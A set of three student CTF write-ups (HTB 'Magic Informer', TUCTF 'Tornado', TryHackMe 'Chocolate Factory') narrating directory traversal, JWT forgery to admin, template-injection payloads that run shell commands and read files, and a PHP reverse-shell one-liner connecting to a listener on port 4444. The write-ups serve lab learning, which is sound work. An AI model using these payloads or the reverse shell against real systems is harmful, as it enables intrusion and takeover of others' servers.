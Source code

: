 # Team: Schokomilk disco
**Areeb Hussain, Vasiliy Klyosov**

## HTB University CTF 2022 : Supernatural Hacks
**Challenge:** The magic Informer                                                                                                                                        
**Challenge Description:** The Magic Informer is the only byte-sized wizarding newspaper that brings the best magical news to you at your fingertips! Due to popular demand and bold headlines, we are often targeted by wizards and hackers alike. We need you to pentest our news portal and see if you can gain access to our server.      
**Challenge category:** Web                                                                                                                                              
**Challenge diffuculty:** easy

## <div align="center">Write up 1</div>


I started by opening the webserver on my browser from the given ip address and port
`http://134.209.30.169:30713/register`
Started to look around and clicking on the images , but there was one interesting button ‘We are hiring’, which leads to a register page. `http://134.209.30.169:30713/register`
![](https://i.imgur.com/W6uKSyQ.png)


As shown in the picture above there were some input fields that saves user data and a upload option that only lets you upload only docx files.


Looking at the upload I assumed it could be a file upload vulnerability(LFI) so I uploaded  a simple php file taken from Mr Münch notes, turns out it was uploaded?
![](https://i.imgur.com/UuepqDm.png)

But when I changed the request to GET in order to force the webserver to run the file, it didn’t execute
![](https://i.imgur.com/xdS3TPC.png)

Moving on. All this data and the file upload needs to be stored somewhere. So I did a dirb on this webserver and got some additional folders in it
![](https://i.imgur.com/O8vEQ0f.png)

The `/download` folder seemed interesting…

Just the ip/download directory didn’t lead anywhere so I tried some Directory traversal
![](https://i.imgur.com/vuqkJNl.png)

So theres `app/uploads` folder lets dig deeper into these folders

There was nothing in the /upload folder, I guess all those files that I uploaded never did get uploded?

After some try and error , I figured out the directories where  all the Javascript source code was kept

Its folders is at the path `http://134.209.30.169:30713/download?resume=..././` and all the source code  files are  here

Deliberately adding a “.” in the path gives a list of other folders with source code files (index.js)
![](https://i.imgur.com/Rbm84ED.png)

Reviewing the app/routes/index.js file there was a mention of `admin.db` So I downloaded it from the path `http://134.209.30.169:30713/download?resume=..././admin.db`

Its a sql lite data base which could be open with sqllitebrowser, the file looks something like this
![](https://i.imgur.com/31wYsEq.png)

Also it confirms under the **enrollments** table that the php files were never uploaded, only our test.docx that was uploaded
![](https://i.imgur.com/PVuKTlo.png)


Looking at the **users** table theres also an `admin` user beside my `schokomilk`
![](https://i.imgur.com/mbTLzJ5.png)

The admin password looks somewhat of a encryption maybe. After checking it with different types of decoder, I conclude it is not an encryption. Will come to it later.
 
After some guidance on JSON Web Tokens by Mr Münch. I logged in with my user schokomilk and copied the generated cookie session via burp suite intercepter. This copied cookied is to pasted in on **jwt.io**    
![](https://i.imgur.com/kbAXQfa.png)


Here we change the payload; `username: admin` and paste the newly generated token back your intercepted cookie session.

Voila! Admin is logged in
![](https://i.imgur.com/DhhbD2k.png)

On the admin dashboard only two buttons are functional `SMS Gateway` and `SQL Prompt`. Lets look into these.

**Note:** Every time we click a somewhere on the page, we  need to intercept and change the cookie session with the admin jwt otherwise it will load your user dashboard again using the previous session 

![](https://i.imgur.com/fnvt9pp.png)

In the above picuture the query cannot be executed because this endpoint is whitelisted to local host only. We need to look at the files again here and see where it validates the “localhost"

after going through all of the different index.js files, I saw an import LocalMiddleware.js, the word Local got my attention here, so I downloaded the file through directory traversal path
`134.209.30.169:30713/download?resume=..././../middleware/LocalMiddleware.js`

Here we can see it validates the ip address from where the request is received and the Host header request.
![](https://i.imgur.com/G5dV3yh.png)

So now we know the local Host, lets look at the `SMS Gate` way page.
![](https://i.imgur.com/KAK5E0t.png)

After playing around and sending some **‘Test SMS’** it is clear that their needs to be some manipulation in the HTTP Parameters.
![](https://i.imgur.com/IUGaTj3.png)

For the APIKEY ,  I thought it could be the admin password from the users table in the DB that so I tried putting  apiKEY: `“45f56005f5907945c2351e2b0e64cce6”` but did not work, but now its clear that we need a correct key.

![](https://i.imgur.com/frQmKfg.png)

Unfortunately I coudln't find the flag and this is what I could do till the end.

**Extra:**
On Clicking a ‘map’ picture on the main webserver page, it opened an Employee Archive page,
but for some reason after refreshing the docker container this page was not accessible by clicking the ‘map’ picture again.
![](https://i.imgur.com/HlYzTgg.png)

<br/>
<br/>
<br/>


# TUCTF

## <div align="center">Write up 2</div>
**Challenge:** Tornado                                                                                                                                                  
**Challenge Description:** My friend gave me the templet to his website, it is built using tornado. Can you help me find the flag?                                      
**Challenge category:** web                                                                                                                                              
**Challenge diffuculty:** easy

Main page of tornado
![](https://i.imgur.com/wFPySYe.png)
It returns a normal greeting when we enter our name but if we inspect the source of the page there is also hidden information about Joe and the amount of cookies he has

![](https://i.imgur.com/a39hMcQ.png)

Also cookies is in boolean value but when we change it to yes nothing happens :(

![](https://i.imgur.com/kyibzpz.png)
Also we can notice that tornado runs on a python server and fun fact, we can inject some python code on it
![](https://i.imgur.com/S0ZMz9r.png)
 we can try something like this:
 ![](https://i.imgur.com/73p34T8.png)
![](https://i.imgur.com/yUVrEnD.png)
After doing some research on secure-cookie.io and experimenting with the input, I got another interesting info while writing payload for ls command: {% import os %}{{os.popen('ls').read()}}
![](https://i.imgur.com/nM4prBD.png)

It turns out /app/web2.py is the path for the script, so I tried to open it with the next script: {{open("/app/web2.py").read()}}

![](https://i.imgur.com/mPchn1i.png)

I pointed out the important information, there is a riddle with cookies that we can solve, or you could have just executed a payload to give the output, which I did, we got the flag, which is ==TUCTF{t0rnad0_1snt_v3ry_s3cur3}==

<br/>
<br/>
<br/>


# TryHackMe

## <div align="center">ADDITIONAL Write up 3</div>

**Challenge:** Chocolate Factory by AndyInfosec                                                                                                                          
**Challenge Description:** A Charlie And The Chocolate Factory themed room, revisit Willy Wonka's chocolate factory!                                                    
**Challenge category:** privillege escalation                                                                                                                            
**Challenge diffuculty:** easy                                                                                                                                          
*It is an optional writeup, since the writeups for this challenge were already available at the moment when we started solving it, but we still solved it by ourselves and decided to include the writeup(for fun)*

I started by nmaping to see which ports are open
![](https://i.imgur.com/RbHNFTv.png)

My next step was dir and gobusters to find any potential hidden links that may be useful. I did gobuster dir -x ".txt,.php,.html" -u 10.10.177.63 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt	
And I found /home.php which has code execution vulnerability
![](https://i.imgur.com/CHuZZO6.png)

the next step was obvious, te set up a listener, I went straight to pentestmonkey for a script:
php -r '$sock=fsockopen("10.9.5.25",4444);exec("/bin/sh -i <&3 >&3 2>&3");'

Reverse shell is done 
![](https://i.imgur.com/8E6ijRy.png)

There was a directory with a hidden key that I saved but didn't find the right usage for
![](https://i.imgur.com/Ra6nfSO.png)
With this file we found a user name and a key it used for something

%slaksdhfas - login or laksdhfas if we strings the file instead of cat
b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY=' - key

there was a php file which gives credentials of a user, the access to whom would lead me to home.php which I already know thanks to gobuster
![](https://i.imgur.com/WU7BnsY.png)

if we go back we can identify the user which has been hacked, her name is charlie
![](https://i.imgur.com/H3te2Ua.png)
There are3 files, 2 of them are private and public key, respectively, but the other one is hidden from us, that's why we are performing a genius move.
I copied the key in a file on my local machine, changed mode to 777 and used it to establish an ssh connection with the user charlie on the given IP address with that key, the command looked like this: ssh -i id_rsa charlie@ip_addr

we got into the same directory and were able to cat the flag
![](https://i.imgur.com/SXwCNCV.png)
but, it wasn't the flag we needed to complete the CTF :(

let's see if charlie can be root 
![](https://i.imgur.com/dFtJ9dt.png)

now the hardest part begins, privilege escalation:
![](https://i.imgur.com/WsYppVd.png)

Unfortunately, I was not able to gain root and get the root flag but still had fun :)
